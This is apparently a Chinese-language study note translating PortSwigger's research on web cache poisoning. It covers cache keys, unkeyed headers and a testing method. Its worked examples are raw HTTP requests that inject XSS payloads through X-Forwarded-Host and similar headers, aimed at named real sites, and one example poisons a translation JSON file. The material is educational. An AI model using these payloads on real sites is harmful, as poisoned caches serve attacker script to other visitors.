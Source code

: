 > 本文 翻译整理自[实用的web缓存中毒](https://portswigger.net/research/practical-web-cache-poisoning)，记录仅作个人学习使用，侵删
## 核心概念
### Caching 101
Web缓存位于用户和应用程序服务器之间，它们保存和提供某些响应的副本。在下图中，我们可以看到三个用户一个接一个地获取相同的资源：

![](media/Pasted%20image%2020231003235129.png)

### Cache keys
每当缓存收到一个资源的请求时，它需要决定是否已经保存了这个确切资源的副本，并可以用它来回复请求，还是需要将请求转发给应用服务器。逐字节匹配不现实，这就出现了`缓存键`解决问题~~（通常使用request-line和user-agent作为缓存键）~~
```java
GET /blog/post.php?mobile=1 HTTP/1.1  
Host: example.com  
User-Agent: Mozilla/5.0 … Firefox/57.0  
Cookie: language=pl;  
Connection: close
```

```java
GET /blog/post.php?mobile=1 HTTP/1.1  
Host: example.com  
User-Agent: Mozilla/5.0 … Firefox/57.0  
Cookie: language=en;  
Connection: close
```

在上述请求中，使用了HTTP方法`GET`和主机名`example.com` 以及请求路径`/blog/post.php` 和查询字符串`?mobile=1`来作为缓存建，可想而知，该页面将以错误的语言提供给第二个访问者
>这暗示了一个问题--由非缓存建触发的响应中的任何差异都可能被存储并提供给其他用户

#### 补充：
```
缓存通过使用缓存键（cache keys）的概念来解决这个问题 - 这是 HTTP 请求的一些特定组件，用于完全标识被请求的资源

缓存键通常包括用于唯一标识资源的以下元素：

1. **HTTP方法 (HTTP Method):** 这表示请求的类型，例如 GET、POST、PUT 或 DELETE。

2. **主机名 (Host Name):** 表示请求资源的主机名或域名，用于定位资源的来源。

3. **路径 (Path):** 表示请求资源的路径，即 URL 中主机名之后的部分。

4. **查询字符串 (Query String):** 表示查询参数，如果请求中包含查询参数，它们也会被包括在缓存键中。

```

### Cache Poisoning
Web缓存中毒的目的是发送导致有害响应的请求，这些响应被保存该高速缓存中并提供给其他用户。

![](media/Pasted%20image%2020231004000647.png)
1. HTTP头等非键控输入
2. HTTP响应拆分
3. 请求走私

### Methodology

![](media/Pasted%20image%2020231004172422.png)

1. 识别和评估非缓存建输入
2. 从后端服务器获取有害响应
3. 获取缓存的响应
4. ~~当审核一个实时网站时，意外地毒害其他访问者是一个永久的危险。Param Miner通过向Burp的所有出站请求添加缓存破坏器来缓解此问题。这个缓存buster有一个固定的值，因此您可以自己观察缓存行为，而不会影响其他用户。~~

### 实例分析

#### Basic Poisoning
1. 找非缓存键
```code
GET /en?cb=1 HTTP/1.1  
Host: www.redhat.com  
X-Forwarded-Host:      **canary** 
  
HTTP/1.1 200 OK  
Cache-Control: public, no-cache  
…  
<meta property="og:image" content="https://  **canary **  /cms/social.png" />
```
2. 评估是否可利用
```code
GET /en?dontpoisoneveryone=1 HTTP/1.1  
Host: www.redhat.com  
X-Forwarded-Host:     **a."><script>alert(1)</script> **
  
HTTP/1.1 200 OK  
Cache-Control: public, no-cache  
…  
<meta property="og:image" content="https://   **a."><script>alert(1)</script>**  "/>
```
3. 检查此响应是否已存储在缓存中，以便将其传递给其他用户
```code
GET /en?dontpoisoneveryone=1 HTTP/1.1  
Host: www.redhat.com  
  
HTTP/1.1 200 OK  
…  
<meta property="og:image" content="https://a."><script>alert(1)</script>"/>
```

#### Discreet poisoning
1. 发送大量请求保证缓存，方法几乎不可用
2. 逆向目标的缓存到期系统并通过浏览文档和监控网站来预测准确的到期时间来避免这个问题，但这听起来就很难。
3. 响应协议头“Age”和“max-age”分别是当前响应的时间和它将过期的时间
```code
GET / HTTP/1.1
Host: unity3d.com
X-Host: portswigger-labs.net

HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
…
<script src="https://portswigger-labs.net/sites/files/foo.js"></script>
```


#### Selective Poisoning
“Vary” ：赋予的值代表缓存键.
```code
GET / HTTP/1.1  
Host: redacted.com  
User-Agent: Mozilla/5.0 … Firefox/60.0  
X-Forwarded-Host: a"><iframe onload=alert(1)>  
  
HTTP/1.1 200 OK  
X-Served-By: cache-lhr6335-LHR  
Vary: User-Agent, Accept-Encoding  
…  
<link rel="canonical" href="https://a">a<iframe onload=alert(1)>  
</iframe>
```
Vary头告诉我们，我们的User-Agent可能是该高速缓存键的一部分，手动测试证实了这一点。这意味着，由于我们声称使用Firefox 60，我们的漏洞将只提供给其他Firefox 60用户。~~我们可以使用流行的用户代理列表来确保大多数访问者收到我们的漏洞，但这种行为给了我们更多选择性攻击的选择。如果你知道他们的用户代理，你就有可能针对特定的人进行攻击，甚至可以隐藏自己的网站监控团队。~~

#### DOM Poisoning
利用未加密的输入并不总是像写入XSS Payload一样容易。如以下请求：

```
GET /dataset HTTP/1.1
Host: catalog.data.gov
X-Forwarded-Host: canary

HTTP/1.1 200 OK
Age: 32707
X-Cache: Hit from cloudfront 
…
<body data-site-root="https://canary/">
```

我们已经控制了'data-site-root'属性，但我们不能突破以使用XSS，并且不清楚这个属性甚至用于什么。为了找到答案，我在Burp中创建了一个匹配并替换的规则，为所有请求添加了“X-Forwarded-Host：id.burpcollaborator.net”协议头，然后浏览了该站点。当加载某些页面时，Firefox会将JavaScript生成的请求发送到我的服务器：

```
GET /api/i18n/en HTTP/1.1
Host: id.burpcollaborator.net
```

该路径表明，在网站的某个地方，有一些JavaScript代码使用data-site-root属性来决定从哪里加载一些国际数据。我试图通过获取[https://catalog.data.gov/api/i18n/en](https://catalog.data.gov/api/i18n/en) 来找出这些数据应该是什么样的，但只是收到了一个空的JSON响应。幸运的是，将'en'改为'es'拿到了一个线索：

```
GET /api/i18n/es HTTP/1.1
Host: catalog.data.gov

HTTP/1.1 200 OK
…
{"Show more":"Mostrar más"}
```

该文件包含用于将短语翻译为用户所选语言的地图。通过创建我们自己的翻译文件并使缓存投毒，我们可以将短语翻译变成漏洞：

```
GET  /api/i18n/en HTTP/1.1
Host: portswigger-labs.net

HTTP/1.1 200 OK
...
{"Show more":"<svg onload=alert(1)>"}
```

最终的结果，任何查看包含“显示更多”文字的网页的人都会被利用。

到此为止 ，更多内容请看paper

## Tools
[Param Miner](https://github.com/PortSwigger/param-miner)

## Paper
[实用的web缓存中毒](https://portswigger.net/research/practical-web-cache-poisoning)  
[web缓存中毒导致的dos](https://portswigger.net/research/responsible-denial-of-service-with-web-cache-poisoning)  
[**CPDoS**: **C**ache **P**oisoned **D**enial **o**f **S**ervice](https://cpdos.org/)  
